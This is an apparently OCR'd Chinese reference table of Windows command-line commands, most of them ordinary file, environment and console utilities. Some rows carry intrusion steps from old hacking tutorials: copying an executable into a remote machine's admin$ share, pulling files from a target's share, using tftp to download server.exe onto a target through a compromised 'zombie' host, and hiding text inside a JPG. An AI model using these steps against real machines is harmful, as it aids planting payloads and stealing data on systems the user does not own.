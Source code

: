 | open ip | 连接到IP（属telnet登陆后的命令） |
| telnet | 在本机上直接键入telnet 将进入本机的telnet  |
| copy 路径\文件名1　路径\文件名2 /y | 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件 |
| copy c:\srv.exe \\ip\admin$ | 复制本地c:\srv.exe到对方的admin下 |
| cppy 1st.jpg/b+2st.txt/a 3st.jpg | 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件 |
| copy \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.* | 复制对方admini$共享下的srv.exe文件（所有文件）至本地C： |
| xcopy 要复制的文件或目录树　目标地址\目录名 | 复制文件和目录树，用参数/Y将不提示覆盖相同文件 |
| tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe | 登陆后，将"IP"的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送 |
| tftp -i 对方IP　put c:\server.exe | 登陆后，上传本地c:\server.exe至主机 |
| ftp ip 端口 | 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时) |
| route print | 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface |
| arp | 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息 |
| start 程序名或命令 /max 或/min | 新开一个新窗口并最大化（最小化）运行某程序或命令 |
| mem | 查看cpu使用情况（win7或以上系统不可用） |
| attrib 文件名(目录名) | 查看某文件（目录）的属性 |
| attrib 文件名 -A -R -S -H 或 +A +R +S +H | 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性 |
| dir | 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间 |
| date /t 或 time /t | 使用此参数即"DATE/T"、"TIME/T"将只显示当前日期和时间，而不必输入新日期和时间 |
| set | 指定环境变量名称=要指派给变量的字符 设置环境变量 |
| set | 显示当前所有的环境变量 |
| set p(或其它字符) | 显示出当前以字符p(或其它字符)开头的所有环境变量 |
| pause | 暂停批处理程序，并显示出：请按任意键继续.... |
| if | 在批处理程序中执行条件处理（更多说明见if命令及变量） |
| goto 标签 | 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如："：start"标签） |
| call 路径\批处理文件名 | 从批处理程序中调用另一个批处理程序 （更多说明见call /?） |
| for | 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量） |
| echo on或off | 打开或关闭echo，仅用echo不加参数则显示当前echo设置 |
| echo 信息 | 在屏幕上显示出信息 |
| echo 信息 >> pass.txt |  |
| 将"信息"保存到pass.txt文件中 |  |
| findstr "Hello" aa.txt | 在aa.txt文件中寻找字符串hello |
| find 文件名 | 查找某文件 |
| title 标题名字 | 更改CMD窗口标题名字 |
| color 颜色值 | 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白 |
| prompt 名称 | 更改cmd.exe的显示的命令提示符(把C:\、D:\统一改为：EntSky\ ) |
